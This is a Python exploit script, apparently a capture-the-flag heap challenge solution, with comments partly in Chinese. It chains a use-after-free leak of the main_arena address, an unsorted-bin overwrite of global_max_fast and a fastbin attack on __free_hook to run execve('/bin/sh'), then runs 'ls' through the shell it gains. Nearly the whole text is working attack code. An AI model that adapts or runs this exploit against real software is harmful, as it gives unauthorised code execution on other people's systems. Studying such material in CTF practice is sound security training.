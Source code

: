 ```

# Create two chunks, must prevent consolidate into forest
insert(0x20, "A" * 0x1f)  # 0
insert(0x20, "B" * 0x1f)  # 1

length = 0x100 - 0x8
insert(length,"G"*(length-1))    # 2

# Merge 0 chunk with itself, use after free
merge(0, 0)               # 把0 放到了unsorted bin上了，同时也可以访问0, ## 3
# print(target.recv())
leak_main_arena_88 = u64(view(3)[0:8])

# 0x3c3b20 + 88 main_arena_88 offset   0x7ffff7fc2b78
# 0x3c5848   max_fast_addr offset


# 0x7ffff7fc2b20是arena的地址
# fast bin的地址0x7ffff7fc2b20 +8
# fast bin 0x200对应的内存地址0x7ffff7fc2b20 + 8 + 30 * 8
offset1 = 0x1cd0
max_fast_addr = leak_main_arena_88 + offset1

edit(3,0x10,p64(leak_main_arena_88) + p64(max_fast_addr- 2*8))

insert(0x20,"C"*0x1f)    # 0

# print(target.recv())

merge(2,2)              # 4

# print(target.recv())

malloc_free_hook_target_addr = 0x1bdf + leak_main_arena_88 - 8
edit(4, 0x1f0, p64(malloc_free_hook_target_addr) + (0x1f0-8-1)*'I')  

offset2 = 0x1c30
free_hook_addr = leak_main_arena_88 + offset2
num_to_write = (free_hook_addr - (malloc_free_hook_target_addr + 2 * 8 ))

execve_bin_sh_addr = leak_main_arena_88 - 0x37e917

insert(0x1f0,'H'*(0x1f0-1))
# insert(0x1f0,'H'*(0x1f0-1))

# insert(0x1f0,'H'*(0x1f0-1))

insert(0x1f0,num_to_write * '\x00' + p64(execve_bin_sh_addr) + '\x00' * (0x1f0-num_to_write-8-1))   # 6
# insert(0x1f0,num_to_write * 'E' + p64(execve_bin_sh_addr))   # 6

# insert(0x20, "A" * 0x1f)  # 0
# print('haha')
delete(1)
system_input('ls')
print(target.recv())
```
